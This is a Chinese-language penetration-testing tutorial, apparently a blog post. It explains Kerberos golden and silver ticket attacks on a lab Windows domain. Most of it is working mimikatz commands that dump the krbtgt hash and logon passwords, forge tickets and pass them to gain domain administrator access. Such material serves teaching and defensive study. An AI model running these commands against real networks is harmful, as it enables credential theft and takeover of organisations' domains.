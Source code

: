 ```yaml
---
title: 域渗透入门（五）金票据、银票据
categories:
- WindowsDomain
tags:
- WindowsDomain
---
```

域渗透入门（五）金票据、银票据

## 参考资料
- [https://ldapwiki.com/wiki/Golden%20Ticket](https://ldapwiki.com/wiki/Golden%20Ticket)
- [https://m0chan.github.io/2019/07/31/How-To-Attack-Kerberos-101.html#introduction-3](https://m0chan.github.io/2019/07/31/How-To-Attack-Kerberos-101.html#introduction-3)
- https://www.cnblogs.com/wuxinmengyi/p/11768481.html
- [https://www.youtube.com/watch?v=475V07I01J0](https://www.youtube.com/watch?v=475V07I01J0)

## 录制的视频教程
- [域渗透实践篇（六）黄金票据与白银票据](https://www.acfun.cn/v/ac15446533)

## 黄金票据
### 信息搜集

![](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/05-10-09/%E5%9F%9F%E6%B8%97%E9%80%8F%E6%BC%94%E7%A4%BA.png)

### 漏洞利用
```
#导出krbtgt的ntlm hash
mimikatz.exe "lsadump::dcsync /domain:0day.org /user:krbtgt" exit

#伪造黄金票据
mimikatz.exe "kerberos::golden /admin:Administrator /domain:0day.org /sid:S-1-5-21-1812960810-2335050734-3517558805 /krbtgt:36f9d9e6d98ecf8307baf4f46ef842a2 /ticket:Administrator.kirbi" exit

#pass the ticket票据传递，获取域管理员权限
mimikatz.exe "kerberos::ptt Administrator.kirbi" exit
```
## 白银票据
### 信息搜集
```
/domain: The FDQN

/user: 要伪造的目标用户/计算机 Target Account/Computer to Impersonate
/ptt: Optional (Will Inject Ticket or you can do with Rubeus)
/service:cifs	服务参数为cifs
/domain    参数为域名
/sid	   参数为域sid (whoami /user)
/target    可能是目标计算机的主机名
/rc4       服务账号的ntml hash
/user      需要伪造的用户名  NTLM Hash of User Password/Computer Password
```
```
#生成了mimikatz.log文件
mimikatz.exe log "privilege::debug" "sekurlsa::logonpasswords" exit

#伪造白银票据，伪造CIFS服务权限
mimikatz.exe "kerberos::golden /domain:0day.org /sid:S-1-5-21-1812960810-2335050734-3517558805 /target:OWA2010SP3.0day.org /service:CIFS /rc4:01832b04fa3aed862548241a387e3342 /user:Administrator /ptt" exit

dir \\OWA2010SP3\c$

```

